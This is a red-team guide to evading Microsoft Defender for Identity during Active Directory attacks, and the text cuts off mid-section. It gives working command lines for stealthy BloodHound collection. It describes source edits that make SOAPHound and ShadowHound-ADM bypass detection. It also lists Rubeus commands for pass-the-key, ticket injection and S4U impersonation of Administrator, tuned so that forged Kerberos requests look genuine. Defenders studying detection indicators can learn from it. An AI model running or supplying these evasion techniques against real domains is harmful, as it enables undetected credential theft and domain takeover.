MDI
Microsoft Defender for Identity - OPSEC Guide
Core principle: Avoid talking to the DC as long as possible, and make traffic appear genuine by emulating legitimate Kerberos requests.
Table of Contents
- Overview
- Reconnaissance OPSEC
- Kerberos Requests OPSEC
- Kerberoasting OPSEC
- Identity Attack Paths
- Logon Script Abuse
- DCSync OPSEC
- Forged Tickets OPSEC
- Conclusion
- To Do / Further Research
- References
Overview
https://learn.microsoft.com/en-us/defender-for-identity/what-is
- MDI sensors are installed on DCs and Federation servers.
- Analysis and alerting is done in the Azure cloud.
- MDI can detect:
- Recon - LDAP enumeration, BloodHound collection
- Compromised credentials - Brute-Force, Kerberoasting
- Lateral movement - PTH, OPTH
- Domain Dominance - DCSync, Golden Ticket, Skeleton Key
- Exfiltration


Kerberos Flow Reference
AS-REQ (Authentication Service Request)

TGS-REQ (Ticket Granting Service Request)

Detect MDI Presence
# Check for MDI sensor API endpoint
https://<your-workspace-name>sensorapi.atp.azure.com
# Example:
https://yhp0wsensorapi.atp.azure.com
Reconnaissance OPSEC
BloodHound - LDAP (SharpHound)
To make BloodHound collection stealthy:
- Remove noisy collection methods: RDP, DCOM, PSRemote, LocalAdmin
- Use --ExcludeDCs to avoid direct MDI detection
# Detected by MDI
SharpHound.exe --collectionmethods All
# More OPSEC-friendly, but still detected by MDI
SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs
MDI Alerts:


ADExplorer
ADExplorer (Microsoft Sysinternals) is a signed tool for AD viewing and editing - a better alternative to LDAP recon. - Reference: https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer - A user can take a snapshot of AD and process it offline. - The snapshot can be converted into BloodHound JSON files: https://github.com/c3c/ADExplorerSnapshot - Reference: https://trustedsec.com/blog/adexplorer-on-engagements
Drawbacks: - May fail in large domains with poor connectivity. - When ADFS is deployed, ADExplorer triggers an MDI alert by reading the ADFS LDAP container.


Prefer ADWS over LDAP when possible to avoid MDI detection.
BloodHound - ADWS
SOAPHound
SOAPHound talks to Active Directory Web Services (ADWS - Port 9389) instead of sending LDAP queries.
- Almost no network-based detection by MDI.
- Retrieves all objects (objectGuid=*) then processes them locally.
- Limited LDAP queries - less chance of endpoint detection.
# Build a cache with basic info about domain objects
SOAPHound.exe --buildcache -c c:\users\vagrant\desktop\cache.txt
# Collect BloodHound-compatible data
SOAPHound.exe -c c:\users\vagrant\desktop\cache.txt --bhdump -o c:\users\vagrant\desktop\bloodhound-output --nolaps
MDI detection: MDI detected the original SOAPHound due to the LDAP filter (!soaphound=*).


The filter is hardcoded in the source:

After modifying (!soaphound=*) in the source and recompiling, SOAPHound bypasses MDI:


Drawbacks: - Requires introducing a binary to monitored endpoints. - May fail against very large domains.
ShadowHound-ADM
ShadowHound-ADM is a PowerShell script leveraging the AD Module over ADWS. - Uses native PowerShell - no need for known-malicious binaries like SharpHound. - Talks to ADWS (Port 9389) instead of LDAP.

# AD Recon
Import-Module .\ShadowHound-ADM.ps1
ShadowHound-ADM -OutputFilePath "C:\users\consultant\documents\mhd\ldap_output.txt" -SplitSearch -LetterSplitSearch -Recurse
# ADCS Recon
ShadowHound-ADM -OutputFilePath "C:\users\consultant\documents\mhd\cert_output.txt" -Certificates
MDI detection: Detected due to specific LDAP filters in the original code.
For AD Recon:


For ADCS Recon:


After modifying the filters in the source, ShadowHound-ADM bypasses MDI:


Convert outputs to BloodHound JSON:
# Setup venv
python -m venv .venv
source .venv/bin/activate
pip3 install bofhound
# Convert
bofhound -i ~/workspace/ldap_output.txt -p All --parser ldapsearch
bofhound -i ~/workspace/certs_output.txt -p All --parser ldapsearch


Kerberos Requests OPSEC
AS-REQ
Detection indicators - Rubeus vs Genuine:
Genuine AS-REQ always sends a first request without pre-authentication, then a second one with it.

Rubeus skips the first unauthenticated AS-REQ:

Encryption type: Genuine traffic uses AES256 (etype 18). Tools default to RC4 (etype 23) - the most obvious indicator.
| Indicator | Rubeus | Genuine |
|---|---|---|
| First unauthenticated AS-REQ | Missing | Present |
| Encryption type | RC4 (23) | AES256 (18) |
canonicalize bit |
Disabled | Enabled |
| Supported etypes count | < 6 | 6 |
rtime (renew time) field |
Missing | Present |
addresses field |
Missing | Present |





MDI Alerts:


Emulate a Genuine AS-REQ
- Send a first unauthenticated AS-REQ, then a second one with
PA-ENC-TIMESTAMP, PA-DATAencrypted with AES256. - Enable
canonicalizein KDC options. - Include all 6 supported etypes.
- Include
rtimeandaddressesfields.
# OPSEC-friendly
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /aes256:05B2FCE16C6564D6A8XXXX7C72D5090D9CC3F66FC4F5E376FD8EBB76B8D0 /enctype:aes256 /opsec /nowrap /ptt
# Less OPSEC (MDI may detect - undetected in lab)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /rc4:F894F8DBEXXXX0421B73202F4A5160D /enctype:aes256 /opsec /nowrap /ptt /force
# Detected by MDI
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /rc4:F894F8DBE06XXXXX73202F4A5160D
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /aes256:05B2FCE16C6564D6A8XXXXXXC72D5090D9CC3F66FC4F5E376FD8EBB76B8D0
TGS-REQ
Genuine logins always request several service tickets: host, ldap, cifs.

Detection indicators - Rubeus vs Genuine:
| Indicator | Rubeus | Genuine |
|---|---|---|
PA PAC OPTIONS field |
Missing | Present |
canonicalize bit |
Disabled | Enabled |
| Supported etypes count | < 5 | 5 |
cname field |
Included | Absent |
till field |
Incorrect | Proper |
enc-authorization-data |
Missing | Present |

MDI Alert:

For the Authenticator (cksum, cusec, seq number): unlikely to be monitored as decrypting all authenticators on the fly would impose massive overhead.


Unconstrained delegation: When requesting a TGS for a service with unconstrained delegation, the TGS-REP sets the ok-as-delegate bit, triggering a second TGS-REQ for krbtgt/domain.com to get a forwardable TGT.


To emulate genuine traffic, also issue a TGS-REQ for krbtgt/domain.com.

Emulate a Genuine TGS-REQ
- Use AES256 encryption.
- Include
PA PAC OPTIONSfield. - Enable
canonicalizein KDC options. - Include all 5 supported etypes.
- Remove the
cnamefield. - Set a proper
tillfield. - Include
enc-authorization-data. - Request multiple service tickets (
ldap,host,cifs).
# OPSEC-friendly (with existing TGT)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgs /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:Administrator /enctype:aes256 /opsec /service:ldap/dc01.yhp0w.lan,host/dc01.yhp0w.lan,cifs/dc01.yhp0w.lan /nowrap /ptt /ticket:doIFcjCCBW6gAwIBBaEDAgEWooIEYz.............................xPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNTRVZFTktJTkdET01
# Detected by MDI
Rubeus.exe asktgs /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /service:ldap/dc01.yhp0w.lan,http/dc01.yhp0w.lan,host/dc01.yhp0w.lan,cifs/dc01.yhp0w.lan /nowrap /ticket:doIFcjCCBW6gAwIBBaEDAgEWooIEYz.............................xPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNTRVZFTktJTkdET01
# OPSEC one-shot AS-REQ + TGS-REQ (x3)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgs /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /aes256:05B2FCE16C6564D6A8B07B6EC67C72XXXXXXXXXXF5E376FD8EBB76B8D0 /enctype:aes256 /opsec /service:ldap/dc01.yhp0w.lan,host/dc01.yhp0w.lan,cifs/dc01.yhp0w.lan /nowrap /ptt
# TGT Renew (based on a TGT from an OPSEC AS-REQ)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe renew /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /enctype:aes256 /nowrap /ptt /ticket:........
S4U2Self
Difference between genuine and Rubeus S4U2Self requests:


Emulate a Genuine S4U2Self TGS-REQ
- Include
PA-S4U-X509-USER. - Enable
canonicalizein KDC options. - Include all 5 supported etypes.
- Remove the
cnamefield. - Set a proper
tillfield (+15min, not Sept 2037). - Use correct PA username name-type:
Enterprise-PRINCIPAL(not NT Principal). - Use correct sname name-type:
NT Principal.
# OPSEC-friendly
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /self /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /aes256:05B2FCE16C6564D6A8B07BXXXXXXXX3F66FC4F5E376FD8EBB76B8D0 /impersonateuser:Administrator /altservice:svc/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt
# Less OPSEC (MDI may detect - undetected in lab)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /self /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /rc4:F894F8DBE0XXXXXX3202F4A5160D /impersonateuser:Administrator /altservice:svc/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt

S4U2Proxy
Difference between genuine and Rubeus S4U2Proxy requests:


Emulate a Genuine S4U2Proxy TGS-REQ
- Include
PA-PAC-OPTIONS. - Enable
